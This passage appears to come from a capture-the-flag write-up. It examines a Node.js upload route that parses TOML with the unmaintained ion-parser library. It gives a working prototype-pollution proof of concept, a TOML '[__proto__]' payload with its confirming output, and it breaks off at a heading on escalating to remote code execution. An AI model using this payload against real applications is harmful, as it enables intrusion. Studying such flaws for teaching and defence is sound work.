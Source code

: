 >ransomwares.js
{:.filename}
{% highlight javascript linenos %}
router.post('/:id/config', upload.single('config'), async function (req, res) {
  try {
    var config = parse(req.file.buffer.toString());
    // await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
    res.redirect('/ransomware/' + req.params.id);

  } catch {
    res.sendStatus(500)
  }
});
{% endhighlight %}

### ion-parser library
A quick look up on [ion-parser](https://www.npmjs.com/package/ion-parser) shows that this library hasn't been updated in over a year and the GitHub repository no longer exists.

Looking at some sample TOML data, I hypothesize that it might be possible for a prototype pollution vulnerability to exist in the library and we can quickly verify that with the following NodeJS code:

{% highlight javascript linenos %}
const { parse } = require('ion-parser')

console.log("Before:", ({}).somevar)

const config = parse(`
[__proto__]
somevar = 'this is prototype pollution!'
`)

console.log("After:", ({}).somevar)%
{% endhighlight %}

Running gives us the following output:

{% highlight bash linenos %}
→ node sample.js
Before: undefined
After: this is prototype pollution!
{% endhighlight %}

Running the above code shows that we have managed to inject properties into `Object.prototype`, which most objects inherits from.

You can read more about prototype pollution [here](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications).

Looking at the source code for ion-parser, we can find multiple places where prototype pollution could occur, but I'll leave this as an exercise for the reader.

### Achieving Remote Code Execution
> So now that we have prototype pollution, how do we escalate this into remote code execution (RCE)?
